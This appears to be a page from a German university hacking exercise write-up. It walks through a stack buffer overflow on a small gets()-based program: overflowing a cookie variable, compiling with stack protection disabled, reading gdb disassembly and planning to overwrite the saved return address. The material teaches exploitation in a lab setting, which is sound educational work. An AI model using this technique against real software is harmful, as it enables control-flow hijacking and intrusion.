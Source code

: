 \documentclass[10pt,a4paper]{article}
\begin{document}
Daraus folgt also folgende Ein-/Ausgabe:
\begin{verbatim}
$ ./a
buf: ffffe7d0 cookie: ffffe83c
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadbcg
glückwunsch bernd!
\end{verbatim}

\subsection*{b)}

Diese Aufgabe sollte durch überschreiben des "`Saved Instruction Pointer"' erfüllt werden. Hier verwenden wir das selbe Prinzip, nur dass wir statt die \texttt{cookie} Variable zu überschreiben eben den Pointer überschreiben möchten. Dieser Pointer sollte sich weitere 32 Bit hinter \texttt{cookie} befinden.

Zunächst compilieren wir das Programm wieder, diesmal aber zur Sicherheit mit dem Parameter, um stack-protektoren nicht zu setzen:
\begin{verbatim}
gcc -o b b.c -fno-stack-protector
\end{verbatim}

Mit gdb schauen wir uns daraufhin das Ergebnis des Compilierens an:
\begin{verbatim}
$ gdb b
GNU gdb (GDB) 7.6.2
Copyright (C)
[...]
Hacking/Blatt5/b...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040058d <+0>:	push   %rbp
   0x000000000040058e <+1>:	mov    %rsp,%rbp
   0x0000000000400591 <+4>:	sub    $0x70,%rsp
   0x0000000000400595 <+8>:	lea    -0x4(%rbp),%rdx
   0x0000000000400599 <+12>:	lea    -0x70(%rbp),%rax
   0x000000000040059d <+16>:	mov    %rax,%rsi
   0x00000000004005a0 <+19>:	mov    $0x400664,%edi
   0x00000000004005a5 <+24>:	mov    $0x0,%eax
   0x00000000004005aa <+29>:	callq  0x400460 <printf@plt>
   0x00000000004005af <+34>:	lea    -0x70(%rbp),%rax
   0x00000000004005b3 <+38>:	mov    %rax,%rdi
   0x00000000004005b6 <+41>:	callq  0x400490 <gets@plt>
   0x00000000004005bb <+46>:	mov    -0x4(%rbp),%eax
   0x00000000004005be <+49>:	cmp    $0xa0d00,%eax
   0x00000000004005c3 <+54>:	jne    0x4005cf <main+66>
   0x00000000004005c5 <+56>:	mov    $0x40067c,%edi
   0x00000000004005ca <+61>:	callq  0x400450 <puts@plt>
   0x00000000004005cf <+66>:	leaveq 
   0x00000000004005d0 <+67>:	retq   
End of assembler dump.
\end{verbatim}

Aus diesen Daten kann man lesen, dass bei Adresse 0x4005be die if-Abfrage umgesetzt wurde. Diese möchten wir mit unserer Eingabe umgehen und direkt zum printf("...") springen. Wir müssen also die Sprungadresse ersetzen durch 0x4005c5. Da diese Adresse nicht zu tippende Zeichen enthält schreiben wir uns ein Eingabe-Programm "`inputGen.c"', welches wir dann zusammen mit dem Programm "`b"' aufrufen:
\begin{verbatim}
./inputGen | ./b
\end{verbatim}
\end{document}
